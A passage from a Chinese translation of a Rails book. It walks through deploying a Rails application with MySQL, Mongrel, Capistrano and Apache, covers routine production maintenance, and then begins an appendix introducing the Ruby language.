$ sudo gem install --include-dependencies termios
$ sudo gem install --include-dependencies capistrano
$ sudo gem install --include-dependencies mongrel
$ sudo gem install --include-dependencies mongrel_cluster
```

此时，你已经拥有了启动基本 Rails 应用程序所需的所有软件。当然，如果你的应用程序依赖其他 Ruby gem，你也应该安装它们。现在是时候处理数据库了。

#### 第二步：设置你的数据库

一旦 MySQL 在你的服务器上启动并运行（无论是通过安装 MySQL 的预构建版本还是使用包管理器），你需要为你的应用程序创建一个数据库以及一个数据库用户。为此，你需要执行以下操作。

```
# 在你的数据库服务器上
$ mysql -u root -p
Enter password: ********
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2080 to server version: 5.0.19

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> CREATE DATABASE myapplication;
Query OK, 1 row affected (0.01 sec)

mysql> GRANT ALL PRIVILEGES ON myapplication.* TO 'myapplication'@'localhost'
    -> IDENTIFIED BY 'some_pass' WITH GRANT OPTION;
Query OK, 0 rows affected (0.01 sec)
```

2. Debian 和 Ubuntu 用户可能想查看 Chris McGrath 在 http://mongrel.rubyforge.org/docs/debian-sarge.html 上的文章。

你还需要使用生产块中的相关信息更新应用程序中的 `config/database.yml` 文件。

```
production:
  adapter: mysql
  database: myapplication
  username: myapplication
  password: somepass
```

此时，你已经拥有了让应用程序与 MySQL 通信所需的最小配置。现在你也应该花几分钟考虑数据库相关的安全影响。使用防火墙和数据库的内置机制将网络访问限制到绝对必要的最少机器集合。确保你有密码策略，将访问限制在*需要知道*的基础上，并经常更改密码。将生产环境的密码从已签入的配置文件中移除——使用 Capistrano 钩子在每次部署后复制生产 `database.yml` 文件。你可以使用类似以下的内容。

```
task :after_update_code, :roles => :app do
  db_config = "#{shared_path}/config/database.yml.production"
  run "cp #{db_config} #{release_path}/config/database.yml"
end
```

最后，如果你在受监管的环境中工作，请确保你的策略满足或超过这些法规的要求。

#### 第三步：配置 Mongrel

下一步是将 mongrel 配置添加到你的项目中。为此，请在应用程序的目录中执行以下命令（我们已将此命令分成两行以适应页面）。

```
# 在你的本地计算机上
$ mongrel_rails cluster::configure -e production -p 8000 \
    -a 127.0.0.1 -N 2 -c /deploy/path/current
```

> （如果出现错误，请确保在发出命令时位于应用程序目录的顶层。）

此命令的参数相当重要。`-p 8000` 参数指定 mongrel 实例将在部署服务器上从 8000 端口开始启动。`-a 127.0.0.1` 参数将设置 Mongrel 监听本地主机接口。`-N 2` 参数表示将启动两个 Mongrel 实例。而 `-c /deploy/path/current` 参数是你的应用程序将在远程服务器上部署到的位置。请注意，此路径中的 `current` 一词是必需的：`deploy/path` 部分是你应用程序的路径，而 `current` 是 Capistrano 在该应用程序结构内创建的一个目录。


#### 步骤四：使用 Capistrano 进行部署

要为 Capistrano 在你的项目中添加必要的文件以施展其魔力，请执行以下命令。

```
# 在你的本地计算机上
$ cap --apply-to /local/project/path [applicationname]
    exists  config
    create  config/deploy.rb
    exists  lib/tasks
    create  lib/tasks/capistrano.rake
```

从输出中，你可以看到 Capistrano 设置了两个文件。第一个，`config/deploy.rb`，包含了部署你的应用程序所需的配方（recipes）。第二个，`lib/tasks/capistrano.rake`，向你的应用程序添加了一些任务，使你能够直接通过 Rake 调用 Capistrano 任务。下一步是编辑 `config/deploy.rb` 以进行部署配置。对于基本设置，你只需对该文件进行少量编辑。你需要在文件顶部添加一条 require 语句，以包含 mongrel_cluster 的配方，这将使使用 mongrel 的部署变得轻松：

```
require 'mongrel_cluster/recipes'
```

添加这一行之后，你需要编辑几个属性以匹配你的应用程序。你需要编辑或添加的属性有

```
set :application, "applicationname"
set :repository, "http://svn.host.com/#{application}/trunk"
set :deploy_to, "/Library/Rails/#{application}"
set :mongrel_conf, "#{current_path}/config/mongrel_cluster.yml"
```

```
role :web, "your.host.com"
role :app, "your.host.com"
role :db,  "your.host.com", :primary => true
```

完成这些编辑后，你就可以进行部署了。首次部署应用程序时，你需要执行两个步骤。第一步是在服务器上设置用于部署的基础目录结构。

```
# 在你的本地计算机上
$ rake remote:setup
```

执行此命令时，Capistrano 会提示你输入服务器的密码。然后它会连接并创建必要的目录。此命令完成后，你就准备好进行第二步：实际部署你的应用程序。使用以下命令。

```
# 在你的本地计算机上
$ rake remote:cold_deploy
```

此命令将运行，将你的应用程序部署到服务器，然后启动 Mongrel 实例。如果一切顺利，你的应用程序将在远程系统的 8000 和 8001 端口上运行。你可以通过在远程系统上执行以下命令来验证。

```
# 在你的服务器上
$ curl -I http://127.0.0.1:8000
HTTP/1.1 200 OK
Content-Length: 7551
Date: Thu, 07 Sep 2006 18:02:50 GMT
Cache-Control: no-cache
Server: Mongrel 0.3.13.3
Content-Type: text/html; charset=utf-8
```

这表明你的 Mongrel 设置和应用程序服务器运行正常。

#### 步骤五：将 Apache 连接到 Mongrel

一旦你的应用程序部署并在一群 Mongrel 上运行，最后一步是将 Apache 连接到你的应用服务器实例。为此，你需要编辑服务器上的 Apache 配置并添加以下内容。

```
<Proxy balancer://mongrel_cluster>
  BalancerMember http://127.0.0.1:8000
  BalancerMember http://127.0.0.1:8001
</Proxy>
```

```
<VirtualHost *:80>
  ServerName myapp.com
  DocumentRoot /Library/Rails/myapplication/current/public

  <Directory "/Library/Rails/myapplication/current/public">
    Options FollowSymLinks
    AllowOverride None
    Order allow,deny
    Allow from all
  </Directory>

  RewriteEngine On

  # 检查维护文件并重定向所有请求
  RewriteCond %{DOCUMENT_ROOT}/system/maintenance.html -f
  RewriteCond %{SCRIPT_FILENAME} !maintenance.html
  RewriteRule ^.*$ /system/maintenance.html [L]

  # 重写 index 以检查静态文件
  RewriteRule ^/$ /index.html [QSA]

  # 重写以检查 Rails 缓存页面
  RewriteRule ^([^.]+)$ $1.html [QSA]

  # 将所有非静态请求重定向到集群
  RewriteCond %{DOCUMENT_ROOT}/%{REQUEST_FILENAME} !-f
  RewriteRule ^/(.*)$ balancer://mongrel_cluster%{REQUEST_URI} [P,QSA,L]
</VirtualHost>
```

设置好 Apache 的虚拟主机块后，重启它，你就可以开始运行了。

```
# 在你的服务器上
$ sudo httpd restart
```

#### 清洗、重复

一旦你走到这一步，你的服务器就准备好在你愿意的任何时候部署应用程序的新版本。你只需要将更改提交到 Subversion，然后重新部署：

```
# 在你的本地计算机上
$ rake remote:deploy
```

如果由于某种原因你需要回退到以前的应用程序版本，可以使用

```
# 在你的本地计算机上
$ rake remote:rollback
```

现在你已经拥有了一个完全部署的应用程序，并可以根据需要部署以更新服务器上运行的代码。每次部署应用程序时，服务器上都会检出一个新版本，更新一些符号链接，并重启 Mongrel 实例。

### 27.6 检查已部署的应用程序

一旦部署了应用程序，你无疑需要不时检查其运行情况。主要有两种方式。第一种是监控前端 Web 服务器和运行应用程序的 Mongrel 实例输出的各种日志文件。第二种是使用 `script/console` 连接到你的应用程序。

#### 查看日志文件

要快速了解应用程序中发生的情况，你可以使用 `tail` 命令在请求发送到应用程序时检查日志文件。最有趣的数据通常来自应用程序本身生成的日志文件。当使用 Mongrel 运行多个应用程序实例时，所有服务器的日志输出都会聚合到 `mongrel.log` 文件中。

假设你的应用程序部署在我们之前显示的位置，以下是查看运行日志文件的方法。

```
# 在你的服务器上
$ cd /Library/Rails/myapplication/current/
$ tail -f log/mongrel.log
```

有时，你需要更底层的信息——你的应用程序中的数据发生了什么？在这种情况下，是时候使用最有用的实时服务器调试工具了。

##### 使用控制台查看实时应用程序

你已经在应用程序的模型类中创建了大量功能。当然，这些是为了被应用程序的控制器使用而创建的。但你也可以直接与它们交互。进入这个世界的入口是 `script/console` 脚本。你可以在服务器上启动它

```
# 在你的服务器上
$ cd /Library/Rails/myapplication/current/
$ ruby ./script/console production
Loading production environment.
irb(main):001:0> p = Product.find_by_title("Pragmatic Version Control")
=> #<Product:0x24797b4 @attributes={. . .}>
irb(main):002:0> p.price = 32.95
=> 32.95
irb(main):003:0> p.save
=> true
```

一旦你打开了一个控制台会话，你就可以探索并尝试模型上的各种方法。你可以创建、检查和删除记录。在某种程度上，这就像是拥有了一个应用程序的 root 控制台。

### 27.7 生产环境应用程序维护

一旦将应用程序投入生产环境，你需要处理一些维护任务以保持应用程序平稳运行。这些任务不会自动为你处理。幸运的是，你可以将它们自动化。

#### 处理日志文件

应用程序运行时，会不断向其日志文件添加数据。最终，日志文件可能会变得非常大。为了克服这个问题，大多数日志记录解决方案可以滚动日志文件，创建一组按时间递增的日志文件。这会将你的日志文件分解成可管理的块，这些块可以在一定时间后归档甚至删除。

`Logger` 类支持滚动。然而，每个 Mongrel 进程都有自己的 `Logger` 实例。这有时会导致问题，因为每个日志记录器都试图滚动同一个文件。与其使用内置的滚动机制，不如设置你自己的周期性脚本（由 `cron` 或类似工具触发），首先将当前日志的内容复制到不同的文件，然后将其截断。

##### 清理会话

Rails 中的会话处理器不会自动进行内务处理。这意味着一旦会话数据被创建，它就不会自动清除。


会话过期后，这可能迅速引发问题。默认的基于文件的会话处理器会比基于数据库的会话处理器更早遇到麻烦，但两种处理器都会创建无限量的数据。

由于 Rails 不会自行清理，你需要自己动手。最简单的方法是定期运行脚本。如果你将会话存储在文件中，脚本需要查看每个会话文件的最后修改时间，然后删除较旧的文件。例如，你可以将以下命令放入一个脚本中，该脚本将删除过去 12 小时内未被访问过的文件。

```
# 在你的服务器上
$ find /tmp/ -name 'ruby_sess*' -ctime +12h -delete
```

如果你的应用程序将会话数据保存在数据库中，你的脚本可以查看 `updated_at` 列并相应地删除行。你可以使用 `script/runner` 来执行此命令。

```
> RAILS_ENV=production ./script/runner \
    'ActiveRecord::Base.connection.delete(
        "DELETE FROM sessions WHERE updated_at <  now() - 12*3600")'
```

##### 掌控应用程序错误

你可能想查看 exception notification 插件，以便在应用程序抛出异常时设置一种向支持人员发送电子邮件的方式。使用以下命令安装

```
depot> ruby script/plugin install exception_notification
```

将以下内容添加到你的应用程序控制器中。

```
class ApplicationController < ActionController::Base
    include ExceptionNotifiable
    # ...
end
```

然后在你的 `environment.rb` 文件中设置接收通知电子邮件的人员列表。

```
ExceptionNotifier.exception_recipients =
    %w(support@my-org.com dave@cell-phone.company)
```

你需要确保 Action Mailer 已配置为发送电子邮件，正如我们从第 568 页开始描述的那样。

### 27.8 迈向发布及未来

一旦你完成了初始部署，你就准备好完成应用程序的开发并将其投入生产环境。你可能会设置额外的部署服务器，从第一次部署中获得的经验将告诉你很多关于如何构建后续部署的信息。例如，你可能会发现 Rails 是系统中较慢的组件之一——更多的请求时间将花在 Rails 上，而不是等待数据库或文件系统。这表明扩展的方法是增加机器，将 Rails 负载分散开来。

然而，你可能会发现请求所花费的大部分时间是在数据库中。如果是这种情况，你将希望研究如何优化数据库活动。也许你会想改变访问数据的方式。或者也许你需要自定义一些 SQL 来替代默认的 Active Record 行为。

有一件事是肯定的：每个应用程序在其生命周期中都需要不同的调整。最重要的活动是随着时间的推移去倾听它，发现需要做什么。你的工作并非在启动应用程序时就结束了。实际上，它才刚刚开始。

# 第五部分

## 附录

# 附录 A

## Ruby 简介

Ruby 是一门相当简单的语言。即便如此，在如此简短的附录中真正公正地介绍它是不太可能的。相反，我们希望能解释足够的 Ruby 知识，使本书中的示例能够被理解。本章大量借鉴了 *Programming Ruby* [TFH05] 第 2 章的内容。¹

### A.1 Ruby 是一种面向对象的语言

你在 Ruby 中操作的一切都是对象，而这些操作的结果本身也是对象。

当你编写面向对象代码时，你通常是在对现实世界中的概念进行建模。通常，在这个建模过程中，你会发现需要表示的事物类别。在在线商店中，订单项的概念可能就是这样一个类别。在 Ruby 中，你会定义一个 `class` 来代表每个这样的类别。一个类是状态（例如，数量和产品 ID）和使用该状态的方法（也许是一个计算订单项总成本的方法）的结合。我们将在第 635 页展示如何创建类。

一旦你定义了这些类，你通常会想要创建每个类的*实例*。例如，在一个商店中，当 Fred 订购一本书和当 Wilma 订购一个 PDF 时，你有单独的 `LineItem` 实例。单词 *object* 与 *class instance* 可以互换使用（由于我们是懒惰的打字员，我们将使用 *object* 这个词）。

对象是通过调用*构造函数*创建的，构造函数是与类相关联的特殊方法。标准构造函数称为 `new`。因此，给定一个名为 `LineItem` 的类，你可以按照以下方式创建订单项对象。

¹ 为避免显得过于自利，我们建议学习 Ruby 的最佳方式，以及 Ruby 类、模块和库的最佳参考，是 *Programming Ruby* [TFH05]（也称为 PickAxe 书）。欢迎加入 Ruby 社区。

```
line_item_one = LineItem.new
line_item_one.quantity = 1
line_item_one.sku       = "AUTO_B_00"

line_item_two = LineItem.new
line_item_two.quantity = 2
line_item_two.sku       = "RUBY_P_00"
```

这些实例都源自同一个类，但它们有独特的特征。特别是，每个实例都有自己独立的状态，保存在*实例变量*中。例如，我们的每个订单项都可能有一个保存数量的实例变量。

在每个类中，你可以定义*实例方法*。每个方法是一块功能代码，可以从类内部调用，并且（根据可访问性约束）也可以从类外部调用。这些实例方法进而可以访问对象的实例变量，从而访问对象的状态。

方法通过向对象发送*消息*来调用。消息包含方法的名称，以及方法可能需要的任何参数。² 当一个对象接收到一条消息时，它会在自己的类中查找对应的方法。

方法和消息的这种机制可能听起来很复杂，但在实践中非常自然。让我们看一些方法调用。

```
"dave".length
line_item_one.quantity
-1942.abs
cart.add_line_item(next_purchase)
```

这里，点号之前的东西称为*接收者*，点号之后的名称是要调用的方法。第一个例子询问一个字符串的长度（4）。第二个例子要求一个订单项对象返回其数量。第三行让一个数字计算其绝对值。最后一行向我们展示向购物车中添加一个订单项。

### A.2   Ruby 命名

局部变量、方法参数和方法名都应该以小写字母或下划线开头：`order`、`line_item` 和 `xr2000` 都是有效的。实例变量（我们在第 636 页讨论）以 "at" 符号（`@`）开头，例如 `@quantity` 和 `@product_id`。Ruby 约定是在多单词方法或变量名中使用下划线分隔单词（因此 `line_item` 优于 `lineItem`）。

> ²   以消息形式表达方法调用的这个想法来自于 Smalltalk。

类名、模块名和常量必须以大写字母开头。按照惯例，它们使用首字母大写而不是下划线来区分名称中的单词开头。类名看起来像 `Object`、`PurchaseOrder` 和 `LineItem`。

Rails 大量使用符号。符号看起来像一个变量名，但它前面有一个冒号。符号的例子包括 `:action`、`:line_items` 和 `:id`。你可以将符号视为神奇地变成常量的字符串字面量。或者，你可以认为冒号的意思是“名为……的东西”，所以 `:id` 是“名为 id 的东西”。

Rails 使用符号来识别事物。特别是，它使用它们作为键来命名方法参数和在哈希中查找事物。例如：

```
redirect_to :action => "edit", :id => params[:id]
```

### A.3 方法

让我们编写一个返回愉快的、个性化问候语的方法。我们将调用这个方法几次。

```
def say_goodnight(name)
  result = "Good night, " + name
  return result
end

# 该睡觉了...
puts say_goodnight("Mary-Ellen")
puts say_goodnight("John-Boy")
```

只要将每个语句放在单独的行中，就不需要在语句末尾加分号。Ruby 注释以 `#` 字符开头，一直延伸到行尾。缩进不重要（但两个字符的缩进是事实上的 Ruby 标准）。

方法使用关键字 `def` 定义，后跟方法名（在本例中为 `say_goodnight`），以及括号中的方法参数。Ruby 不使用花括号来界定复合语句和定义（如方法和类）的主体。相反，你只需用关键字 `end` 结束主体。方法主体的第一行将字符串字面量 "Good night, " 和参数名拼接起来，并将结果赋值给局部变量 `result`。下一行将该结果返回给调用者。注意，我们不需要声明变量 `result`；它在我们对其赋值时就自动创建了。

定义了该方法后，我们调用了它两次。在两种情况下，我们将结果传递给 `puts` 方法，该方法将参数输出到控制台，后跟一个换行符（移动到输出的下一行）。如果我们已将此程序存储在文件 `hello.rb` 中，我们可以按如下方式运行它。


work> ruby hello.rb
晚安，玛丽-埃伦
晚安，约翰-博伊

行 `puts say_goodnight("John-Boy")` 包含两个方法调用，一个是调用 `say_goodnight` 方法，另一个是调用 `puts` 方法。为什么一个方法调用的参数在括号内，而另一个没有？在这种情况下，这纯粹是风格偏好问题。以下几行是等效的。

```ruby
puts say_goodnight("John-Boy")
puts(say_goodnight("John-Boy"))
```

在 Rails 应用程序中，你会发现大多数涉及较大表达式的方法调用会使用括号，而那些看起来更像命令或声明的方法调用则倾向于不使用括号。

此示例还展示了一些 Ruby 字符串对象。创建字符串对象的一种方法是使用 *字符串字面量*：放在单引号或双引号之间的字符序列。这两种形式之间的区别在于 Ruby 在构造字面量时对字符串进行的处理量。在单引号的情况下，Ruby 做的处理非常少。除了一些例外，你在单引号字符串字面量中输入的内容就成为该字符串的值。

在双引号的情况下，Ruby 会做更多的工作。首先，它会查找 *替换*——以反斜杠字符开头的序列——并用一些二进制值替换它们。其中最常见的是 `\n`，它会被替换为换行符。当你将包含换行符的字符串写入控制台时，`\n` 会强制换行。

其次，Ruby 在双引号字符串中执行 *表达式插值*。在字符串中，序列 `#{expression}` 会被 *表达式* 的值替换。我们可以利用这一点来重写我们之前的方法。

```ruby
def say_goodnight(name)
  result = "Good night, #{name}"
  return result
end
puts say_goodnight('Pa')
```

当 Ruby 构造这个字符串对象时，它会查看 `name` 的当前值并将其代入字符串中。在 `#{...}` 结构中允许使用任意复杂的表达式。这里我们调用了为所有字符串定义的 *capitalize* 方法，以便输出首字母大写的参数。

```ruby
def say_goodnight(name)
  result = "Good night, #{name.capitalize}"
  return result
end
puts say_goodnight('uncle')
```

最后，我们可以简化这个方法。Ruby 方法返回的值是最后一个被求值的表达式的值，因此我们可以完全去掉临时变量和 `return` 语句。

```ruby
def say_goodnight(name)
  "Good night, #{name.capitalize}"
end
puts say_goodnight('ma')
```

### A.4 类

这是一个 Ruby 类定义。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items

  def self.find_all_unpaid
    find(:all, 'paid = 0')
  end

  def total
    sum = 0
    line_items.each {|li| sum += li.total}
  end
end
```

类定义以关键字 `class` 开头，后跟类名（必须以大写字母开头）。这个 `Order` 类被定义为 `ActiveRecord` 模块内 `Base` 类的子类。

Rails 大量使用类级别声明。这里的 `has_many` 是由 Active Record 定义的方法。它在定义 `Order` 类时被调用。通常这类方法会对类做出断言，因此在本书中我们称它们为 *声明*。

在类体内部，你可以定义类方法和实例方法。在方法名前加上 `self.`（如我们在第 5 行所做）会使其成为类方法：可以在类本身上被调用。在本例中，我们可以在应用程序的任何地方进行以下调用。

```ruby
to_collect = Order.find_all_unpaid
```

常规方法定义创建 *实例方法*（如第 9 行的 `total` 定义）。这些方法在类的对象上调用。在以下示例中，变量 `order` 引用一个 `Order` 对象。我们在前面的类定义中定义了 `total` 方法。

```ruby
puts "The total is #{order.total}"
```

请注意 `find_all_unpaid` 和 `total` 方法之间的区别。第一个不特定于某个订单，因此我们在类级别定义并通过类本身调用它。第二个适用于一个订单，因此我们将其定义为实例方法并在特定的订单对象上调用它。

类的对象将其状态保存在 *实例变量* 中。这些变量的名称都以 `@` 开头，对类的所有实例方法都可用。每个对象都有自己的一组实例变量。

```ruby
class Greeter
  def initialize(name)
    @name = name
  end
  def say(phrase)
    puts "#{phrase}, #{@name}"
  end
end
```

```ruby
g1 = Greeter.new("Fred")
g2 = Greeter.new("Wilma")
```

```ruby
g1.say("Hello")   #=> Hello, Fred
g2.say("Hi")      #=> Hi, Wilma
```

实例变量在类外部不能直接访问。要使其可用，需要编写返回其值的方法。

```ruby
class Greeter
  def initialize(name)
    @name = name
  end

  def name
    @name
  end

  def name=(new_name)
    @name = new_name
  end
end
```

```ruby
g = Greeter.new("Barney")
puts g.name   #=> Barney
g.name = "Betty"
puts g.name   #=> Betty
```

Ruby 提供了便捷方法来为你编写这些访问器方法（这对于厌倦了编写所有 getter 和 setter 的人来说是个好消息）。

```ruby
class Greeter
  attr_accessor :name      # 创建读取器和写入器方法
  attr_reader   :greeting  # 仅创建读取器
  attr_writer   :age       # 仅创建写入器
```

#### 私有和受保护

类的实例方法默认是公共的；任何人都可以调用它们。你可能希望覆盖这一点，用于那些旨在仅由其他类实例方法使用的方法。

```ruby
class MyClass
  def m1  # 此方法是公共的
  end

  protected

  def m2  # 此方法是受保护的
  end

  private

  def m3  # 此方法是私有的
  end
end
```

`private` 指令是最严格的；私有方法只能在同一实例内调用。受保护的方法既可以在同一实例内调用，也可以由同一类及其子类的其他实例调用。

### A.5 模块

模块类似于类，因为它们包含一组方法、常量以及其他模块和类定义。与类不同，你不能基于模块创建对象。

模块有两个目的。首先，它们充当命名空间，让你定义不会与其他地方定义的方法冲突的方法。其次，它们允许你在类之间共享功能——如果一个类 *混入* 一个模块，该模块的实例方法就会变得可用，就好像它们是在该类中定义的一样。多个类可以混入同一个模块，共享模块的功能而不使用继承。你也可以将多个模块混入单个类。

Rails 大量使用模块。例如，辅助方法是在模块中编写的。Rails 会自动将这些辅助模块混入相应的视图模板中。例如，如果你想编写一个可以从 store 控制器调用的视图中调用的辅助方法，你可以在 `app/helpers` 目录的 `store_helper.rb` 文件中定义以下模块。

```ruby
module StoreHelper
  def capitalize_words(string)
    string.gsub(/\b\w/) { $&.upcase }
  end
end
```

### A.6 数组和哈希

Ruby 的数组和哈希是索引集合。两者都存储对象集合，可以通过键访问。对于数组，键是整数，而哈希支持任何对象作为键。数组和哈希都可以根据需要增长以容纳新元素。访问数组元素更高效，但哈希提供了更大的灵活性。任何特定的数组或哈希都可以保存不同类型的对象；例如，你可以有一个包含整数、字符串和浮点数的数组。

你可以使用 *数组字面量*——一组放在方括号之间的元素——来创建和初始化一个新的数组对象。给定一个数组对象，你可以通过在方括号中提供索引来访问单个元素，如以下示例所示。Ruby 数组索引从零开始。

```ruby
a = [ 1, 'cat', 3.14 ]    # 包含三个元素的数组
a[0]                       # 访问第一个元素 (1)
a[2] = nil                 # 设置第三个元素
                           # 数组现在是 [ 1, 'cat', nil ]
```

你可能已经注意到我们在本例中使用了特殊值 `nil`。在许多语言中，`nil`（或 `null`）的概念意味着“没有对象”。在 Ruby 中，情况并非如此；`nil` 是一个对象，就像任何其他对象一样，恰好表示“无”。

方法 `<<` 常用于数组。它将一个值追加到其接收者。

```ruby
ages = []
for person in @people
  ages << person.age
end
```

Ruby 有一个创建单词数组的快捷方式。

```ruby
a = [ 'ant', 'bee', 'cat', 'dog', 'elk' ]
# 这等同于：
a = %w{ ant bee cat dog elk }
```

Ruby 哈希类似于数组。哈希字面量使用花括号而不是方括号。字面量必须为每个条目提供两个对象：一个用于键，另一个用于值。例如，你可能想要将乐器映射到其在管弦乐队中的声部。

```ruby
inst_section = {
  :cello     => 'string',
  :clarinet  => 'woodwind',
  :drum      => 'percussion',
  :oboe      => 'woodwind',
  :trumpet   => 'brass',
  :violin    => 'string'
}
```

=> 左侧是键，右侧是对应值。特定哈希中的键必须唯一——你不能有两个 :drum 条目。哈希的键和值可以是任意对象——你可以拥有值是数组、其他哈希等的哈希。在 Rails 中，哈希通常使用符号作为键。许多 Rails 哈希经过细微调整，因此在插入和查找值时，你可以互换使用字符串或符号作为键。

哈希使用与数组相同的方括号表示法进行索引。

```
inst_section[:oboe]    #=> 'woodwind'
inst_section[:cello]    #=> 'string'
inst_section[:bassoon]  #=> nil
```

如最后一个示例所示，当使用哈希中不包含的键进行索引时，哈希返回 nil。这通常很方便，因为 nil 在条件表达式中用作 false。

#### 哈希和参数列表

你可以在方法调用中将哈希作为参数传递。Ruby 允许你省略花括号，但前提是哈希是调用的最后一个参数。Rails 大量使用了这一特性。以下代码片段显示了一个两元素哈希被传递给 redirect_to 方法。实际上，你可以忽略它是一个哈希的事实，并假装 Ruby 具有关键字参数。

```
redirect_to :action => 'show', :id => product.id
```

### A.7 控制结构

Ruby 具有所有常见的控制结构，例如 if 语句和 while 循环。Java、C 和 Perl 程序员可能会因为缺少这些语句主体周围的花括号而感到不适应。相反，Ruby 使用关键字 end 来表示主体的结束。

```
if count > 10
  puts "Try again"
elsif tries == 3
  puts "You lose"
else
  puts "Enter a number"
end
```

同样，while 语句以 end 结束。

```
while weight < 100 and num_pallets <= 30
  pallet = next_pallet()
  weight += pallet.weight
  num_pallets += 1
end
```

如果 if 或 while 语句的主体只是一个表达式，Ruby *语句修饰符*是一个有用的快捷方式。只需编写表达式，后跟 if 或 while 和条件。

```
puts "Danger, Will Robinson" if radiation > 3000

distance = distance * 1.2 while distance < 100
```

### A.8 正则表达式

正则表达式允许你指定要在字符串中匹配的字符*模式*。在 Ruby 中，你通常通过编写 /pattern/ 或 %r{pattern} 来创建正则表达式。

例如，你可以编写一个模式，使用正则表达式 /Perl|Python/ 匹配包含文本 *Perl* 或文本 *Python* 的字符串。

正斜杠分隔模式，该模式由我们要匹配的两个内容组成，由竖线 (|) 分隔。这个竖线字符表示“左边的内容或右边的内容”，在这种情况下，即 *Perl* 或 *Python*。你可以在模式中使用括号，就像在算术表达式中一样，所以你也可以将此模式写为 /(Perl|Python)/。程序通常使用 =~ 匹配运算符测试字符串是否匹配正则表达式。

```
if line =~ /P(erl|ython)/
    puts "There seems to be another scripting language here"
end
```

你可以在模式中指定*重复*。/ab+c/ 匹配包含一个 *a* 后跟一个或多个 *b*，再后跟一个 *c* 的字符串。将加号改为星号，则 /ab*c/ 创建一个匹配一个 *a*、零个或多个 *b* 和一个 *c* 的正则表达式。

Ruby 的正则表达式是一个深奥复杂的主题：本节只是浅尝辄止。完整讨论请参阅 *PickAxe* [TFH05] 一书。

### A.9 代码块和迭代器

代码块只是花括号之间或 do...end 之间的代码块。一个常见的约定是，人们对单行代码块使用花括号，对多行代码块使用 do/end。

```
{ puts "Hello" }   # 这是一个代码块

do                  ###
    club.enroll(person)  # 这也是
    person.socialize     #
end                 ###
```

代码块必须出现在方法调用之后；将代码块的开始放在包含方法调用的源代码行的末尾。例如，在以下代码中，包含 puts "Hi" 的代码块与对 greet 方法的调用相关联。

```
greet { puts "Hi" }
```

如果方法有参数，它们出现在代码块之前。

```
verbose_greet("Dave", "loyal customer") { puts "Hi" }
```

方法可以使用 Ruby yield 语句调用关联的代码块一次或多次。你可以将 yield 视为类似于方法调用的东西，该调用调用与包含 yield 的方法关联的代码块。你可以通过向 yield 提供参数将值传递给代码块。在代码块内，你在竖线 (|) 之间列出接收这些参数的参数名称。

代码块在 Ruby 应用程序中随处可见。它们通常与迭代器（从某种集合（如数组）中返回连续元素的方法）一起使用。

```
animals = %w( ant bee cat dog elk )  # 创建一个数组
animals.each {|animal| puts animal } # 遍历内容
```

每个整数 N 都实现了一个 times 方法，该方法调用关联的代码块 N 次。

```
3.times { print "Ho! " }  #=> Ho! Ho! Ho!
```

### A.10 异常

异常是（Exception 类或其子类的）对象。raise 方法引发异常。这会中断代码的正常流程。相反，Ruby 会回溯调用栈，寻找可以处理此异常的代码。

异常通过将代码包装在 begin 和 end 关键字之间并使用 rescue 子句拦截特定类别的异常来处理。

```
begin
  content = load_blog_data(file_name)
rescue BlogDataNotFound
  STDERR.puts "File #{file_name} not found"
rescue BlogDataFormatError
  STDERR.puts "Invalid blog data in #{file_name}"
rescue Exception => exc
  STDERR.puts "General error loading #{file_name}: #{exc.message}"
end
```

### A.11 序列化对象

Ruby 可以获取一个对象并将其转换为可以存储在应用程序之外的字节流。此过程称为序列化。此保存的对象以后可以由应用程序的另一个实例（或完全独立的应用程序）读取，并可以重新构造原始保存对象的副本。

使用序列化时有两个潜在问题。首先，某些对象无法转储：如果要转储的对象包含绑定、过程或方法对象、IO 类的实例或单例对象，或者如果你尝试转储匿名类或模块，将会引发 TypeError。

其次，当你加载序列化对象时，Ruby 需要知道该对象类（及其包含的所有对象）的定义。

Rails 使用序列化来存储会话数据。如果你依赖 Rails 动态加载类，则在重构会话数据时，特定类可能尚未定义。因此，你将在控制器中使用 model 声明列出所有序列化的模型。这会预加载必要的类以使序列化工作。

### A.12 交互式 Ruby

irb——交互式 Ruby——是交互式执行 Ruby 的首选工具。irb 是一个 Ruby shell，具有命令行历史记录、行编辑功能和作业控制。你从命令行运行 irb。启动后，只需输入 Ruby 代码。irb 会在计算每个表达式时向你显示其值。

```
% irb
irb(main):001:0> def sum(n1, n2)
irb(main):002:1>     n1 + n2
irb(main):003:1> end
=> nil
irb(main):004:0> sum(3, 4)
=> 7
irb(main):005:0> sum("cat", "dog")
=> "catdog"
```

你可以在 Rails 应用程序上运行 irb，让你尝试方法（有时甚至可以撤销对数据库的损坏）。然而，设置完整的 Rails 环境很棘手。与其手动操作，不如使用 script/console 封装，如第 245 页所示。

### A.13 Ruby 惯用法

Ruby 是一种适合惯用法的语言。网上有许多关于 Ruby 惯用法和 Ruby 陷阱的好资源。以下只是其中几个。

### A.13 Ruby 惯用法

[http://books.rubyveil.com/books/ThingsNewcomersShouldKnow](http://books.rubyveil.com/books/ThingsNewcomersShouldKnow)
[http://www.rubygarden.org/faq](http://www.rubygarden.org/faq)
[http://en.wikipedia.org/wiki/Ruby_programming_language](http://en.wikipedia.org/wiki/Ruby_programming_language)
[http://www.zenspider.com/Languages/Ruby/QuickRef.html](http://www.zenspider.com/Languages/Ruby/QuickRef.html)

本节展示了本书中使用的一些常见 Ruby 惯用法。

#### 像 `empty!` 和 `empty?` 这样的方法

Ruby 方法名可以以感叹号结尾（称为 bang 方法）或问号结尾（称为谓词方法）。Bang 方法通常对接收者执行某种破坏性操作。谓词方法根据某些条件返回 true 或 false。

#### `a || b`

表达式 `a || b` 会计算 `a`。如果 `a` 既不是 `false` 也不是 `nil`，则计算停止，表达式返回 `a`。否则，语句返回 `b`。这是当第一个值未设置时返回默认值的常用方法。

#### `a ||= b`

赋值语句支持一组简写形式：`a op= b` 等同于 `a = a op b`。这适用于大多数运算符。

```ruby
count += 1            # same as count = count + 1
price *= discount     #           price = price * discount
count ||= 0          #           count = count || 0
```

因此，如果 `count` 尚未赋值，`count ||= 0` 会将其值设为 `0`。

#### `obj = self.new`

有时一个类方法需要创建该类的一个实例。

```ruby
class Person < ActiveRecord::Base
  def self.for_dave
    Person.new(:name => 'Dave')
  end
end
```

这工作得很好，返回一个新的 `Person` 对象。但后来，有人可能会继承我们的类。

```ruby
class Employee < Person
  # ...
end
```

```ruby
dave = Employee.for_dave  # returns a Person
```

